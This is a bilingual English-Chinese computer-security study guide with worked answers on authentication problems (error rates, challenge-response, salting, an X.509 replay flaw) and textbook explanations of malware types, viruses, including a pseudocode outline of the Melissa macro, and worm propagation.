- Identification: a one-to-many comparison. The user makes no claim; the system compares the sample with all templates in the database and returns the matching identity or "no match".标识：一对多的比对。用户不做任何声明；系统把样本与数据库中的所有模板进行比对，返回匹配的身份，或返回“无匹配”。
思路：注册存模板，验证是 1:1，识别是 1:N。
E18. (Review Question 3.8, Stallings & Brown) Define the terms false match rate and false nonmatch rate, and explain the use of a threshold in relationship to these two rates.E18.（复习题 3.8，Stallings & Brown）定义误匹配率和误不匹配率这两个术语，并解释阈值与这两种比率之间的关系。
Answer
The comparison of a sample with a template gives a similarity score. A threshold \(t\) decides: a score at or above \(t\) is a match.将样本与模板比对会得到一个相似度分数。阈值 \(t\) 决定结果：分数达到或超过 \(t\) 即为匹配。
- False match rate (FMR): the fraction of impostor attempts that are wrongly accepted.误匹配率（FMR）：被错误接受的冒充尝试所占的比例。
- False nonmatch rate (FNMR): the fraction of genuine attempts that are wrongly rejected.误不匹配率（FNMR）：被错误拒绝的真实尝试所占的比例。
Raising \(t\) makes the system stricter: the FMR decreases and the FNMR increases; lowering \(t\) does the opposite. One cannot reduce both with the threshold alone, so it is set according to the application (high security: low FMR; convenience: low FNMR). The point where the two rates are equal is the equal error rate, used to compare systems.提高 \(t\) 会使系统更严格：FMR 下降，FNMR 上升；降低 \(t\) 则正好相反。仅靠阈值无法同时降低两者，因此阈值要根据应用来设定（高安全场景要求 FMR 低；便利性场景要求 FNMR 低）。两种比率相等的点称为等错误率，用于比较不同的系统。
思路：阈值提高则误识率降、误拒率升，二者此消彼长。
E19. (Review Question 3.9, Stallings & Brown) Describe the general concept of a challenge-response protocol.E19.（复习题 3.9，Stallings & Brown）描述挑战-应答协议的一般概念。
Answer
The verifier sends the claimant a fresh unpredictable value, the challenge (a nonce or random number). The claimant computes a response from the challenge and a secret that both share, for example \(f(r, h(P))\) or a signature on \(r\), and returns it. The verifier computes the expected response, or verifies the signature, and compares. Because the challenge is new each time, a captured response is useless for replay, and the secret (for example the password) is never sent over the network.验证方向声称者发送一个新鲜且不可预测的值，即挑战（一次性随机数或随机数）。声称者根据挑战以及双方共享的秘密计算出应答，例如 \(f(r, h(P))\)，或对 \(r\) 的签名，并将应答返回。验证方计算出期望的应答，或验证签名，再进行比较。由于每次挑战都是新的，被截获的应答无法用于重放；而秘密（例如口令）也从不在网络上传输。
思路：验证方发新鲜随机数，对方用共享秘密算出应答，既防重放又不传口令。
E20. (Problem 3.3, Stallings & Brown) Assume passwords are selected from 4-character combinations of 26 alphabetic characters. Assume an adversary is able to attempt passwords at a rate of one per second. (a) Assuming no feedback to the adversary until each attempt has been completed, what is the expected time to discover the correct password? (b) Assuming feedback to the adversary that flags an error as each incorrect character is entered, what is the expected time to discover the correct password?E20.（习题 3.3，Stallings & Brown）假设口令从 26 个字母组成的 4 字符组合中选取，对手每秒可以尝试一个口令。（a）若在每次尝试完成之前，对手得不到任何反馈，求发现正确口令的期望时间。（b）若对手在输入每个错误字符时即得到错误提示，求发现正确口令的期望时间。
Answer
(a) There are \(26^4 = 456{,}976\) passwords. With no feedback the adversary can only try whole passwords, and the correct one is equally likely to be at any position, so the expected number of tries is \((N+1)/2 = 228{,}488.5\). At one try per second, the expected time is about \(2.28 \times 10^5\) s, roughly 63.5 hours (2.6 days).(a) 共有 \(26^4 = 456{,}976\) 个口令。在没有反馈的情况下，对手只能逐个尝试完整的口令，而正确口令出现在任何一个位置的可能性都相同，因此期望尝试次数为 \((N+1)/2 = 228{,}488.5\)。每秒尝试一次，期望时间约为 \(2.28 \times 10^5\) 秒，即约 63.5 小时（2.6 天）。
(b) With feedback, each of the 4 positions is attacked separately. Within one position the correct letter is equally likely to be the 1st, 2nd, ..., 26th tried, so the expected number of tries is \((26+1)/2 = 13.5\). Over four positions this gives \(4 \times 13.5 = 54\) tries, so about 54 s (about 53.8 s if the last letter of a position is deduced without trying it).(b) 有反馈时，4 个位置分别进行攻击。在每个位置内，正确字母是第 1、第 2、……、第 26 个被尝试的字母的可能性相同，因此期望尝试次数为 \((26+1)/2 = 13.5\)。四个位置合计 \(4 \times 13.5 = 54\) 次尝试，约需 54 秒（若某位置的最后一个字母可以直接推出而无需尝试，则约需 53.8 秒）。
The feedback reduces the work from exponential (\(26^4\)) to linear (\(4 \times 26\)) in the password length, so a system must never reveal which character is wrong.反馈使工作量从与口令长度呈指数关系（\(26^4\)）降为线性关系（\(4 \times 26\)），因此系统绝不能泄露哪个字符是错误的。
思路：整体猜约 N/2 次；逐字符反馈则每位约 13.5 次，共约 54 秒。
E21. (Problem 3.8, Stallings & Brown) The inclusion of the salt in the UNIX password scheme increases the difficulty of guessing by a factor of 4096. But the salt is stored in plaintext in the same entry as the corresponding ciphertext password. Therefore, those two characters are known to the attacker and need not be guessed. Why is it asserted that the salt increases security?E21.（习题 3.8，Stallings & Brown）UNIX 口令方案中加入盐值，使猜测的难度增加为原来的 4096 倍。但盐值与对应的密文口令以明文形式存放在同一条记录中，因此攻击者已知这两个字符，无需再去猜测。那么，为什么说盐值能提高安全性？
Answer
The salt is not secret, but it changes the hash, and that is what protects the file.盐值并不是秘密，但它改变了散列结果，而正是这一点保护了文件。
- Identical passwords give different entries. Two users with the same password (or one user on two systems) have different salts and therefore different hashes, so the attacker cannot see who shares a password, and cracking one entry does not crack the other.相同的口令得到不同的记录。两个使用相同口令的用户（或同一用户在两个系统上使用相同口令）拥有不同的盐值，因而散列值也不同。因此攻击者无法看出谁使用了相同的口令，破解一条记录也不会同时破解另一条。
- Each guess must be hashed per salt. To test a candidate against all users in the file, the attacker must hash it once for every distinct salt. A salt of 12 bits (4096 values) therefore multiplies the cost of attacking the whole file by up to 4096.每个猜测都必须按盐值分别计算散列。要用某个候选口令检验文件中的所有用户，攻击者必须为每个不同的盐值各计算一次散列。因此，12 位盐值（4096 种取值）最多会使攻击整个文件的代价扩大 4096 倍。
- Precomputation is defeated. A table of hashes of dictionary words (including a rainbow table) would have to be built for every possible salt, 4096 times the size and time.预计算失效。字典词的散列表（包括彩虹表）必须为每一种可能的盐值分别构建，表的规模和耗时都要扩大 4096 倍。
- The effective password length grows, so that a short password still hashes in an unpredictable way.有效口令长度增加，因此即使是很短的口令，其散列结果也难以预测。
The salt does not help against an attack on one chosen account, because the attacker knows the salt and simply uses it.盐值对针对某个指定账户的攻击毫无帮助，因为攻击者知道盐值，直接使用即可。
思路：盐不保密，但使相同口令哈希不同，并使预计算表和整文件攻击成本乘以盐空间。
E22. (Problem 16.5, Stallings) The original X.509 three-way authentication protocol is \(A \to B: A\{t_A, r_A, ID_B\}\); \(B \to A: B\{t_B, r_B, ID_A, r_A\}\); \(A \to B: A\{r_B\}\). Here \(t_A, t_B\) are timestamps, \(r_A, r_B\) are nonces and \(X\{Y\}\) means that \(Y\) is signed (and encrypted) by \(X\). Checking the timestamps is optional. Suppose that C has recorded an earlier run of the protocol, and that all timestamps are 0. C sends the recorded first message \(A\{0, r_A, ID_B\}\) to B, and B answers \(B\{0, r_B', ID_A, r_A\}\). C then makes A start a session with C: A sends \(A\{0, r_A', ID_C\}\), and C answers with \(C\{0, r_B', ID_A, r_A'\}\), using the nonce \(r_B'\) that B just supplied. A replies \(A\{r_B'\}\), and C forwards this to B, which believes that it talks to A. Suggest a simple solution that does not use timestamps.E22.（习题 16.5，Stallings）原始 X.509 三次认证协议为：\(A \to B: A\{t_A, r_A, ID_B\}\)；\(B \to A: B\{t_B, r_B, ID_A, r_A\}\)；\(A \to B: A\{r_B\}\)。其中 \(t_A, t_B\) 为时间戳，\(r_A, r_B\) 为一次性随机数，\(X\{Y\}\) 表示 \(Y\) 被 \(X\) 签名（并加密）。检查时间戳是可选的。假设 C 录下了该协议的一次早先运行，并且所有时间戳都为 0。C 把录下的第一条消息 \(A\{0, r_A, ID_B\}\) 发给 B，B 回答 \(B\{0, r_B', ID_A, r_A\}\)。随后 C 让 A 与 C 开始一个会话：A 发送 \(A\{0, r_A', ID_C\}\)，C 使用 B 刚提供的一次性随机数 \(r_B'\) 进行应答，答复为 \(C\{0, r_B', ID_A, r_A'\}\)。A 回复 \(A\{r_B'\}\)，C 将其转发给 B，B 便以为自己是在与 A 通信。请提出一个不使用时间戳的简单解决方案。
Answer
The flaw. The last message \(A\{r_B'\}\) is a signature over the nonce alone. It says nothing about for whom or in which session A signed it. C gets A to sign exactly the value that B needs, by using B's nonce in a parallel session with A, so A acts as a signing oracle, and B accepts the reply as proof that A is present.缺陷。最后一条消息 \(A\{r_B'\}\) 只是对一次性随机数的签名。它没有说明 A 是为谁、在哪个会话中签署的。C 利用 B 的一次性随机数，在与 A 的另一个并行会话中，让 A 签署 B 所需的那个确切值；这样 A 就相当于一个签名预言机，而 B 则把这一应答当作 A 在场的证据而接受。
The fix. Bind the third message to the specific session by including the identity of the other party and the nonces of both sides in what is signed:修正方法。把第三条消息与具体会话绑定：在签名内容中加入对方的身份，以及双方的一次性随机数：
\[A \to B:\ A\{r_B, r_A, ID_B\}\]
Now B checks that the signed message names B (\(ID_B\)) and contains both its own nonce \(r_B\) and the nonce \(r_A\) it received in message 1.现在，B 检查签名的消息中是否写明了 B 自己（\(ID_B\)），并同时包含它自己的一次性随机数 \(r_B\) 以及它在消息 1 中收到的一次性随机数 \(r_A\)。
Why it works. In the attack, A signs \(r_B'\) in a session whose peer is C, so A would sign \(\{r_B', r_A', ID_C\}\). This does not contain \(ID_B\) and the nonce \(r_A\) of the B-session, so B rejects it. A signature meant for one session cannot be used in another.为什么有效。在攻击中，A 是在对端为 C 的会话中签署 \(r_B'\)，因此 A 签署的是 \(\{r_B', r_A', ID_C\}\)。这一内容不包含 \(ID_B\)，也不包含 B 会话的一次性随机数 \(r_A\)，所以 B 会拒绝它。为某一会话签署的签名，无法用于另一会话。
思路：第三条消息把对方身份和双方随机数一起签名，使它不能被拿去别的会话。
Chapter 18Malicious Software恶意软件Reading: Stallings & Brown Ch. 6
Malware types, attack kits and APTs ★★★恶意软件类型、攻击工具包与 APT
Goal. Define malware, classify any sample by how it spreads (propagation) and what it does (payload), and tell the seven main types apart with one example each. Explain what an attack kit and an APT are.目标。 定义恶意软件，按照它如何传播（传播方式）和它做什么（载荷）对任何样本进行分类，并能区分七种主要类型，每种给出一个例子。解释攻击工具包和 APT 是什么。
Step 1: what malware is and the two ways to classify it第 1 步：什么是恶意软件，以及两种分类方法
In words: malware = a program that is put into a system, usually in secret, to harm the victim's data, programs or operating system, or to annoy the victim.用文字表述：恶意软件 = 一种通常秘密植入系统的程序，用于损害受害者的数据、程序或操作系统，或者骚扰受害者.
Malware（恶意软件）is such a program (NIST SP 800-83). It attacks confidentiality, integrity or availability. It is classified by how it reaches a target, its propagation（传播）, and by what it does there, its payload（载荷）.这样的程序就是恶意软件（NIST SP 800-83）。它攻击机密性、完整性或可用性。恶意软件按照它如何到达目标进行分类，即它的传播方式；也按照它在目标上做什么进行分类，即它的载荷。
| Propagation传播 | Mechanism机制 | Typical malware典型恶意软件 |
|---|---|---|
| Infected content感染内容 | modifies executable or interpreted content that users later share修改之后被用户共享的可执行或解释执行内容 | viruses病毒 |
| Vulnerability exploit漏洞利用 | exploits software flaws, locally or over a network利用软件缺陷，可在本地或通过网络实施 | worms, drive-by-downloads蠕虫、路过式下载 |
| Social engineering社会工程 | persuades users to bypass security诱使用户绕过安全防护 | spam, phishing, Trojans垃圾邮件、网络钓鱼、木马 |
Example: an e-mailed Word document with a macro spreads by infected content. A worm that attacks an unpatched server spreads by a vulnerability exploit. A fake "free video codec" spreads by social engineering.例如：一份带宏的 Word 文档通过电子邮件发出，它通过感染内容传播。攻击未打补丁服务器的蠕虫通过漏洞利用传播。伪装成“免费视频编解码器”的程序则通过社会工程传播。
| Payload载荷 | Action动作 | Property attacked受攻击的属性 |
|---|---|---|
| System corruption系统破坏 | destroys or encrypts data, damages hardware破坏或加密数据，损坏硬件 | integrity, availability完整性、可用性 |
| Attack agent攻击代理 | turns the host into a zombie in a botnet使主机成为僵尸网络中的僵尸主机 | integrity, availability完整性、可用性 |
| Information theft信息窃取 | keylogging, spyware, phishing, exfiltration键盘记录、间谍软件、网络钓鱼、数据外泄 | confidentiality机密性 |
| Stealthing隐匿 | backdoors and rootkits hide malware and give covert access后门和 rootkit 隐藏恶意软件并提供隐蔽访问 | integrity完整性 |
A blended attack（混合攻击）uses several propagation methods and several payloads together. This raises the speed and the damage of the attack.混合攻击同时使用多种传播方式和多种载荷。这会提高攻击的速度和破坏力。
Step 2: the seven main types第 2 步：七种主要类型
In words: two questions separate the types: does it need a host program, and does it copy itself?用文字表述：两个问题可以区分这些类型：它是否需要宿主程序？它是否会自我复制？
| Type类型 | Host program宿主程序 | Replicates能否复制 | Defining feature定义特征 |
|---|---|---|---|
| Virus病毒 | needs one需要一个 | yes是 | infects other executable content; runs when the host runs感染其他可执行内容；宿主运行时即运行 |
| Worm蠕虫 | no否 | yes是 | finds machines and exploits vulnerabilities by itself自行寻找机器并利用漏洞 |
| Trojan horse特洛伊木马 | no否 | no否 | useful-looking program with a hidden function看似有用、内含隐藏功能的程序 |
| Logic bomb逻辑炸弹 | hidden in one隐藏在宿主程序中 | no否 | code that fires when a condition is met条件满足时触发的代码 |
| Backdoor后门 | hidden in one隐藏在宿主程序中 | no否 | bypasses a normal security check绕过正常的安全检查 |
| Bot僵尸程序 | no否 | no否 | remote-controlled through a C&C server通过 C&C 服务器远程控制 |
| Rootkitrootkit | no否 | no否 | hides itself and keeps root access隐藏自身并保持 root 权限 |
The same types with how each one spreads, what it does and one example:下表按类型列出各自的传播方式、所做的事情，以及一个例子：
| Type类型 | How it spreads传播方式 | What it does作用 | Example示例 |
|---|---|---|---|
| Virus病毒 | A user runs or opens an infected file用户运行或打开被感染的文件 | Copies itself into other code, then runs its payload把自己复制进其他代码，然后运行其载荷 | Melissa Word macroMelissa Word 宏 |
| Worm蠕虫 | By itself over the network, through a vulnerability通过漏洞自行在网络上传播 | Infects machine after machine一台接一台地感染机器 | Code Red |
| Trojan horse特洛伊木马 | The user installs it, trusting it用户出于信任而自行安装 | Performs a hidden function执行一个隐藏的功能 | A "video codec" that records passwords一个记录密码的“视频编解码器” |
| Logic bomb逻辑炸弹 | Hidden inside a program隐藏在程序内部 | Fires when a condition is met条件满足时触发 | Deletes files on Friday the 13th在 13 号星期五删除文件 |
| Backdoor后门 | Left inside a program留在程序内部 | Lets someone skip the normal security check让人可以跳过正常的安全检查 | A login that accepts one special user name一个接受某个特殊用户名的登录入口 |
| Bot僵尸程序 | Installed by other malware由其他恶意软件安装 | Obeys a command-and-control server听从命令与控制服务器的指令 | A spam or DDoS zombie一台垃圾邮件或 DDoS 僵尸主机 |
| Rootkitrootkit | Installed with root access以 root 权限安装 | Hides the attacker and keeps root access隐藏攻击者，并保持 root 权限 | A kernel rootkit that hides files一种隐藏文件的内核级 rootkit |
Other terms: adware shows advertisements built into software. A downloader installs further malware. An exploit is code for one vulnerability. A flooder is a denial-of-service client.其他术语：广告软件是内置在软件中、用于显示广告的程序。下载器用于安装更多恶意软件。漏洞利用是针对某一个漏洞的代码。洪泛工具是一种拒绝服务客户端。
Step 3: attack kits and advanced persistent threats第 3 步：攻击工具包与高级持续性威胁
An attack kit（攻击工具包）, or crimeware, lets a beginner combine ready-made propagation and payload modules. New vulnerabilities are added before patches spread. The result is a huge number of variants, for example Zeus.攻击工具包又称 crimeware，让新手可以把现成的传播模块和载荷模块组合起来使用。新的漏洞会在补丁普及之前被加入其中。结果是产生大量变种，例如 Zeus。
An advanced persistent threat (APT)（高级持续性威胁）is not a new type of malware. It is the well-resourced and lasting use of many intrusion techniques against chosen business or political targets, often by states. Examples are Aurora, RSA, APT1 and Stuxnet. The three words mean:高级持续性威胁（APT）不是一种新型恶意软件。它是资源充足、持续长久地使用多种入侵技术，针对选定的商业或政治目标，通常由国家发起。例子包括 Aurora、RSA、APT1 和 Stuxnet。这三个词的含义是：
- Advanced: many techniques are combined, and custom malware is written where needed.高级：组合使用多种技术，并在需要的地方编写定制的恶意软件。
- Persistent: the attack is applied quietly over a long time until the target falls.持续：攻击在很长时间里悄悄进行，直到目标被攻陷为止。
- Threat: organised and funded people are behind it, not only automated tools.威胁：背后是有组织、有资金的人，而不只是自动化工具。
Typical techniques are spear-phishing, supply-chain attacks and watering-hole attacks (Section 18.4). Defence needs layers: technical controls, awareness training, and monitoring for command-and-control and exfiltration traffic.典型技术包括鱼叉式网络钓鱼、供应链攻击和水坑攻击（见第 18.4 节）。防御需要多层：技术控制、安全意识培训，以及对命令与控制流量和数据外泄流量的监测。
Practice练习
Q1. (Classification) For each case give the propagation mechanism and the payload category. (a) A free "video codec" that the user installs and that records banking passwords. (b) A web page exploits a browser flaw and the PC then sends spam on command. (c) A Word macro that deletes files on Friday the 13th.Q1.（分类）对每个情形，给出传播机制和载荷类别。(a) 用户安装的一个免费“视频编解码器”，它记录网银密码。(b) 一个网页利用浏览器缺陷，此后该 PC 按指令发送垃圾邮件。(c) 一个 Word 宏，在 13 号恰逢星期五时删除文件。
Answer
(a) Social engineering (Trojan horse); information theft (spyware or keylogger). (b) Vulnerability exploit (drive-by-download); attack agent (the PC becomes a bot). (c) Infected content (macro virus); system corruption, fired by a logic-bomb trigger.(a) 社会工程（特洛伊木马）；信息窃取（间谍软件或键盘记录器）。(b) 漏洞利用（路过式下载）；攻击代理（该 PC 成为僵尸程序）。(c) 感染内容（宏病毒）；系统破坏，由逻辑炸弹的触发条件引发。
Q2. (Explain) What do "advanced", "persistent" and "threat" mean in APT, and why is signature-based anti-virus alone not enough against one?Q2.（解释）在 APT 中，“高级”“持续性”和“威胁”各指什么？为什么仅基于特征码的杀毒软件不足以应对 APT？
Answer
Advanced: a wide range of techniques and custom malware chosen to suit the target. Persistent: attacks applied stealthily and progressively over a long period. Threat: organised, funded attackers with active human involvement. Custom malware and zero-day exploits have no known signature, and humans adapt when blocked. Defence therefore needs layers: patching, awareness training against spear-phishing, and monitoring of C&C and exfiltration traffic.高级：采用范围广泛的技术，并使用为适应目标而定制的恶意软件。持续性：攻击在很长一段时间内隐秘、逐步地实施。威胁：有组织、有资金、由人员积极参与的攻击者。定制恶意软件和零日漏洞利用没有已知特征码，且人员在受阻时会调整策略。因此防御需要多层措施：及时打补丁、针对鱼叉式网络钓鱼的安全意识培训，以及对 C&C 和数据外泄流量的监控。
Viruses ★★★病毒
Goal. Define a virus, give its three parts and four phases, explain why macro viruses are dangerous, trace the Melissa macro, and compare the four ways a virus hides from a scanner.目标。 定义病毒，给出它的三个组成部分和四个阶段，解释宏病毒为什么危险，手工演算 Melissa 宏，并比较病毒躲避扫描器的四种方式。
Step 1: what a virus is, its parts and its life cycle第 1 步：什么是病毒，它的组成部分和生命周期
In words: a virus = a piece of code that copies itself into other programs or documents, and runs whenever the infected file runs.用文字表述：病毒 = 一段会把自己复制进其他程序或文档的代码，并且每当被感染的文件运行时，它也随之运行
A virus（病毒）is malware that, when executed, tries to replicate into other executable machine code or script code. If it succeeds, that code is infected. Running the infected code also runs the virus. The virus can do whatever the host program may do. Early PCs had no access control, so viruses were common. Modern systems have tighter controls, so viruses moved to documents with active content.病毒是一种恶意软件：一旦执行，它就会尝试复制到其他可执行的机器码或脚本代码中。如果复制成功，那段代码就被感染了。运行被感染的代码时，病毒也随之运行。病毒能做宿主程序能做的任何事。早期的个人电脑没有访问控制，因此病毒很常见。现代系统控制得更严，于是病毒转向了带有主动内容的文档。
A virus has three parts.病毒有三个组成部分。
- The infection mechanism（感染机制）, also called the infection vector: how it spreads.感染机制，也叫感染向量，即它如何传播。
- The trigger（触发条件）: the event that activates the payload. It is also called a logic bomb.触发条件：激活载荷的事件。它也被称为逻辑炸弹。
- The payload: what it does besides spreading. The effect can be damage or only a noticeable message.载荷：除了传播之外它所做的事情。其效果可以是破坏，也可以只是一条明显的提示信息。
Its life cycle has four phases.它的生命周期分为四个阶段。
| Phase阶段 | What happens发生的情况 |
|---|---|
| Dormant休眠 | idle until an event such as a date, another file or disk usage above a limit; not every virus has this phase处于空闲状态，直至出现某个事件，如某个日期、另一文件或磁盘使用量超过上限；并非每种病毒都有此阶段 |
| Propagation传播 | copies itself into other programs or system areas; copies may differ from the original将自身复制到其他程序或系统区域；副本可能与原件不同 |
| Triggering触发 | an event activates the payload, e.g., a count of copies made某个事件激活载荷，例如已制作副本的数量达到某个计数 |
| Execution执行 | the payload runs: a harmless message or destruction of data载荷运行：可能只是无害的消息，也可能是数据销毁 |
Example: a virus waits until 1 May (dormant). It copies itself into every program that you start (propagation). On 1 May the trigger fires (triggering), and the payload shows a message or deletes files (execution).例如，一个病毒会等到 5 月 1 日（潜伏）。它把自己复制进你启动的每一个程序（传播）。5 月 1 日，触发条件生效（触发），载荷显示一条消息或删除文件（执行）。
Step 2: macro and scripting viruses第 2 步：宏病毒和脚本病毒
In words: a macro virus lives in the macro code of documents, so it travels wherever documents travel.用文字表述：宏病毒寄生在文档的宏代码中，因此它会随着文档的流动到处传播
A macro virus（宏病毒）lives in the macro or script code of documents such as Word, Excel or PDF files. It runs when the document is viewed or edited. Five reasons make it especially threatening:宏病毒寄生在 Word、Excel 或 PDF 等文档的宏或脚本代码中。文档被查看或编辑时它就会运行。有五个原因使它尤其具有威胁：
- It is platform independent: every system that runs the application is exposed.它与平台无关：凡是运行该应用程序的系统都会受到影响。
- It infects documents, which users exchange most, and not programs.它感染的是文档，而用户交换最多的正是文档，而不是程序。
- It spreads easily by e-mail, sometimes without any prompt.它很容易通过电子邮件传播，有时完全不会有任何提示。
- File-system access control barely helps, because users must be allowed to change documents.文件系统的访问控制几乎起不了作用，因为用户必须被允许修改文档。
- It is much easier to write than a machine-code virus.它比机器码病毒容易编写得多。
Defences are macros signed by trusted authors (Chapter 13), a warning before an unsigned macro runs, and anti-virus tools. The Melissa virus shows the structure of a macro virus.防御手段包括：由可信作者签名的宏（见第 13 章）、在运行未签名宏之前发出警告，以及杀毒工具。Melissa 病毒展示了宏病毒的结构。
macro Document_Open
disable Macro menu and some macro security features
if called from a user document
copy macro code into Normal template file
else
copy macro code into user document being opened
end if
if registry key "Melissa" not present
if Outlook is email client
for first 50 addresses in address book
send email to that address with currently infected document attached
end for
end if
create registry key "Melissa"
end if
if minute in hour equals day of month
insert text into document being opened
end if
end macro
How to read it by hand: Document_Open runs automatically. It switches off security features. It copies itself into the global Normal template, so every later document is infected. Once per machine, guarded by the registry key, it mails the infected document to 50 address-book entries. A trigger (minute equals day of month) inserts a Simpsons quote. Local infection and mass mailing are two infection mechanisms. The second one also makes Melissa a worm.手工读懂它的方法：Document_Open 会自动运行。它关闭安全功能。它把自己复制进全局的 Normal 模板，因此之后的每个文档都会被感染。每台机器只执行一次（由注册表键控制），它把被感染的文档发送给通讯录中的 50 个条目。一个触发条件（分钟数等于日期）会插入一句《辛普森一家》的台词。本地感染和群发邮件是两种感染机制。其中第二种还使 Melissa 成为一种蠕虫。
Step 3: classification第 3 步：分类
In words: viruses are sorted by what they infect and by how they hide. The two axes are independent.用文字表述：病毒按照它感染什么、以及如何隐藏来分类。这两个维度相互独立。
| By target按目标 | Infects感染对象 |
|---|---|
| Boot sector infector引导扇区感染型病毒 | the master boot record or boot record; spreads when the system boots from an infected disk主引导记录或引导记录；系统从被感染的磁盘启动时即传播 |
| File infector文件感染型病毒 | files the operating system or shell treats as executable操作系统或 shell 视为可执行的文件 |
| Macro virus宏病毒 | files with macro or scripting code interpreted by an application包含由应用程序解释执行的宏或脚本代码的文件 |
| Multipartite virus多部分病毒 | several kinds of target, so eradication must cover every infection site具有多种目标，因此清除时必须覆盖每一个感染位置 |
| By concealment按隐藏方式 | How it hides隐藏方式 |
|---|---|
| Encrypted virus加密型病毒 | a random key per copy (stored with the virus) encrypts the body, so it has no constant bit pattern, but the decryption routine stays constant每个副本使用一个随机密钥（与病毒一同存储）加密主体，因此没有固定的位模式，但解密例程保持不变 |
| Stealth virus隐匿型病毒 | hides the entire virus, not only the payload, using code mutation, compression or rootkit techniques利用代码变异、压缩或 rootkit 技术隐藏整个病毒，而不仅是载荷 |
| Polymorphic virus多态型病毒 | functionally equivalent copies with different bit patterns, so the signature varies (superfluous or reordered instructions, or encryption by a mutation engine that itself changes)功能等价但位模式不同的副本，因此特征码各不相同（冗余指令或重新排列的指令，或由自身也会变化的变异引擎进行加密） |
| Metamorphic virus变形型病毒 | rewrites itself completely at each infection; behaviour as well as appearance may change每次感染时完全重写自身；行为和外观都可能改变 |
Example: an encrypted virus hides its body. A scanner looking for the body finds nothing, but the short decryption routine is identical in every copy. A scanner can match this routine. A polymorphic virus changes the routine as well, so even that signature varies. A metamorphic virus has no fixed part at all.例如，加密型病毒把主体隐藏起来。寻找主体的扫描器什么也找不到，但短小的解密例程在每个副本中都相同，扫描器可以匹配这个例程。多态型病毒连这个例程也会改变，所以即使是这个特征也会变化。变形型病毒根本没有固定的部分。
Practice练习
Q1. (Trace) A user whose Outlook has never seen Melissa opens an infected document at 09:23 on 23 March. Later that day, at 14:05, she opens a different document. State what the macro does each time.Q1.（手工演算）一位用户的 Outlook 从未被 Melissa 感染过，她于 3 月 23 日 09:23 打开了一个被感染的文档。当天晚些时候，即 14:05，她又打开了另一份文档。请分别说明宏每次的行为。
Answer
First opening: it disables security features; it is called from a user document, so it copies itself into the Normal template; the registry key is absent and Outlook is the client, so it mails the infected document to the first 50 address-book entries and creates the key; minute 23 equals day 23, so it inserts the quote. Second opening: Document_Open now runs from the template, so the else branch copies the macro into the new document, which becomes infected; the key exists, so no mail is sent; 5 is not 23, so no quote. Total mails sent: 50.第一次打开：它禁用安全功能；由于它是从用户文档中被调用的，因此把自身复制到 Normal 模板中；注册表键不存在，而 Outlook 是客户端，因此它把被感染的文档发送给通讯录中的前 50 个条目，并创建该键；分钟数 23 等于日期 23，因此插入引文。第二次打开：Document_Open 现在从模板中运行，因此 else 分支把宏复制到新文档中，该文档随之被感染；注册表键已存在，因此不发送邮件；分钟数 5 不等于日期 23，因此不插入引文。共发送邮件：50 封。
Q2. (Analysis) Original code: mov eax,5; add eax,ebx; call [eax]. Metamorphic version: mov eax,5; push ecx; pop ecx; add eax,ebx; swap eax,ebx; swap ebx,eax; call [eax]; nop. Describe the effect of the change.Q2.（分析）原始代码：mov eax,5; add eax,ebx; call [eax]。变形版本：mov eax,5; push ecx; pop ecx; add eax,ebx; swap eax,ebx; swap ebx,eax; call [eax]; nop。描述该修改的效果。
Answer
push ecx followed by pop ecx cancels, the two swaps return eax and ebx to their original values, and nop does nothing. The behaviour is unchanged (eax = 5 + ebx, then the call), but 8 instructions with a different byte pattern replace 3, so a signature of the original no longer matches. Inserting and reordering such instructions randomly at each infection is metamorphic concealment; emulation or behaviour monitoring still sees the same behaviour.push ecx 与 pop ecx 相继执行后相互抵消，两次交换使 eax 和 ebx 恢复为原值，nop 不起作用。行为保持不变（eax = 5 + ebx，然后调用），但用 8 条字节模式不同的指令替代了原来的 3 条，因此原始代码的特征码不再匹配。在每次感染时随机插入并重排此类指令，就是变形式隐藏；模拟执行或行为监视仍能观察到相同的行为。
Q3. (True/false) "An encrypted virus uses a new random key for each copy, so a scanner has no constant pattern to match." Justify.Q3.（判断）“加密型病毒为每个副本使用新的随机密钥，因此扫描器没有固定模式可供匹配。”判断该说法是否正确，并说明理由。
Answer
False. The encrypted body differs per copy, but the decryption routine must be in clear text and is identical in every copy, so a scanner can match it (or use the stored key to decrypt the body). Polymorphic viruses defeat this by mutating the decryptor with a mutation engine.错误。加密主体在每个副本中各不相同，但解密例程必须以明文形式存在，且在每个副本中都相同，因此扫描器可以匹配它（或利用所存储的密钥解密主体）。多态病毒则通过变异引擎改变解密器，从而破坏这种匹配。
易错：加密病毒的“解密代码”是固定的，这正是它与多态病毒的区别。
Worms ★★★蠕虫
Goal. Define a worm, list how it reaches other systems, name the four scanning strategies, and use the logistic infection curve to compute how long a worm needs to infect 50% or 90% of the vulnerable hosts.目标。 定义蠕虫，列出它到达其他系统的方式，说出四种扫描策略，并利用逻辑斯谛感染曲线计算蠕虫感染 50% 或 90% 的有漏洞主机所需的时间。
Step 1: what a worm is and how it moves第 1 步：什么是蠕虫，它如何移动
In words: a worm = a program that runs on its own, looks for other machines and infects them, so each victim becomes a new launch pad.用文字表述：蠕虫 = 一种自行运行、寻找其他机器并感染它们的程序，因此每个受害者都会成为新的跳板
A worm（蠕虫）is a program that runs independently and actively seeks out machines to infect. It exploits vulnerabilities in client or server software (Chapter 14), and it also spreads through e-mail and shared media. It goes through the same four phases as a virus. It reaches other systems in five ways.蠕虫是一种独立运行、主动寻找机器加以感染的程序。它利用客户端或服务器软件中的漏洞（见第 14 章），也会通过电子邮件和共享介质传播。它经历的阶段与病毒相同，共有四个阶段。它有五种方式到达其他系统。
| Means of reaching another system到达其他系统的途径 | How the worm uses it蠕虫的利用方式 |
|---|---|
| E-mail or instant messaging电子邮件或即时消息 | sends itself as an attachment that runs when opened or viewed以附件形式发送自身，打开或查看时运行 |
| File sharing文件共享 | copies itself, or infects files, on removable media such as USB drives; runs via autorun or when the user opens it在 U 盘等可移动介质上复制自身或感染文件；通过自动运行或用户打开文件时运行 |
| Remote execution远程执行 | starts a copy through a remote execution facility or a flaw in a network service通过远程执行设施或网络服务的缺陷启动一个副本 |
| Remote file access or transfer远程文件访问或传输 | copies itself with a file-transfer service; a user there runs it借助文件传输服务复制自身；对方的用户运行它 |
| Remote login远程登录 | logs in as a user and copies itself with commands以用户身份登录，并通过命令复制自身 |
